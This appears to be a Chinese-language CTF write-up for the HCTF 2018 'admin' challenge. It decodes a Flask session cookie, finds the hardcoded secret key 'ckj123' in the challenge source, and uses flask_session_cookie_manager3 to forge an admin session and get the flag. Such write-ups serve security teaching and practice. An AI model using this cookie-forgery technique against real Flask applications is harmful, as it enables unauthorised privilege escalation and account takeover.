 ```python
    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```

先随意注册一个账号，拿到一串Session：

```
.eJw9kM2KwjAUhV9luGsXjrYbwUWH1KJwE5Royd2Io7Ex6XWgVdqJ-O5TZHB9Dt_5ecD-3NjWwezW3O0I9pcTzB7w8Q0zkLr2WK6jYZOSDlHqqlN6PSXhalmSk8XKI2-80cuE9LInsWKls0Tq4xh9mKLIOyW2Cfk8VeLkpHcBdehILNjoTa10PjExSwZfjzrrsMwTLFeDzyTEC8aCamIcy1ilVC4cecmosZdDhhJZbyLVkreJYZzDcwTHtjnvbz_BXt8TiHfB-OOUChNl3Dj0-VBnVyuRp-i_ghKhl8X613jHqsQBaSZYzV-4Cx8q-yadtrvO_ivXAw8CnG17u8MI7q1tXr_B5xief8q8blk.ZGTtEQ.85FS0oT2YTk2KHJbNYzcvA_coIY
```

用脚本解码后得到：

```json
{'_fresh': True, '_id': b'59c1d3bf9e93580947d8e5fa4bc2dca28e21d2f908574297010858f1987a68d190d1fa4e916c080111001a81ba668faf0fefc4789eaaf3f131508801c6e6e8bc', 'csrf_token': b'fedb77df374a218f5e81920d8914d2b8f9c1c662', 'image': b'uEpz', 'name': 'festu', 'user_id': '10'}
```

修改name再加密回去，由于要正确的签名，需要"secret_key"，在源码中可以找到 `SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'` ，再利用脚本进行加密：

```powershell
py flask_session_cookie_manager3.py encode -s ckj123 -t "{'_fresh': True, '_id': b'59c1d3bf9e93580947d8e5fa4bc2dca28e21d2f908574297010858f1987a68d190d1fa4e916c080111001a81ba668faf0fefc4789eaaf3f131508801c6e6e8bc', 'csrf_token': b'fedb77df374a218f5e81920d8914d2b8f9c1c662', 'image': b'uEpz', 'name': 'admin', 'user_id': '10'}"

=>.eJw9kM2KwjAUhV9luGsXjqYbwUWH1KJwE5Royd2IY2tj0utAVdqJ-O5TZHB9Dt_5ecD-1FZXB7Nbe69GsD-XMHvAxzfMQJnGY7GOlm1CJkRl6k6b9ZSka1RBTuUrj7zx1iwFmWVPcsXapEKZ4xh9mKLMOi23gnyWaFk65V1AEzqSC7Zm02iTTWxMxeDr0aQdFpnAYjX4rCBeMObUEONYxTqhYuHIK0aDvRoytEx7G6lRvBWWcQ7PERyv7Wl_-wnV5T2BeBesP04pt1HFjUOfDXV2jZZZgv4raBl6la9_rXesCxyQdoL1_IU786Gu3qRyu-uqf-Vy4EGAQ8nnC4zgfq3a12_wOYbnH8hybjs.ZGT15A.3MkVXDRdC8_LSSMPuX9Kw5Q5vwU
```

将其复制进Session中即可得到Flag：`flag{b865b8d4-cb96-4f76-b368-cb72b79f30ec}`

装脚本的时候遇到了一些有趣的问题，由于文件夹一开始命名为"[HCTF 2018]admin" 含有空格和 `[]` 符号，Powershell读取不出，因此右键打开终端时，终端路径自动跳转到了Powershell可执行文件的位置。删除空格和 `[]` 后恢复正常。

GitHub下载下源码后，需要更改"setup.py"的内容才能安装：

```python
#/usr/bin/env python

import codecs
import os
import sys

from os.path import join, dirname
from setuptools import setup, find_packages	# Mark1
import codecs


read = lambda filepath: codecs.open(filepath, 'r', 'utf-8').read()

if 'publish' in sys.argv:
    os.system('python -m twine upload dist/*')
    sys.exit()
```